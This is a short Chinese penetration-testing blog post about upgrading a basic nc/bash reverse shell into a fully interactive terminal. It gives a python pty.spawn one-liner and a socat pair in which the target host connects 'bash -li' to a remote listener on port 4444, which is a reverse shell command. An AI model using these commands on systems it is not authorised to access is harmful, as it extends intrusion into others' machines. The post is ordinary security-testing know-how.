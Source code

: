 ```yaml
---
title: "获得 Linux 交互式 Shell"
date: 2018-02-16T00:00:00+08:00
draft: false
tags: ['linux']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


利用 nc bash 反弹的 shell 虽然能执行一些基本的命令.

但对于 su sudo vim 这些需要交互的程序 就没有什么卵用.

`su: must be run from a terminal`

<!--more-->

## python

Python 中的 pty 库可以衍生一个原生的终端.

`python -c 'import pty;pty.spawn("/bin/bash")'`

## socat

socat (netcat pro).

`Server: socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ip:4444`
`Client: socat file:[反引号]tty[反引号],raw,echo=0 tcp-listen:4444`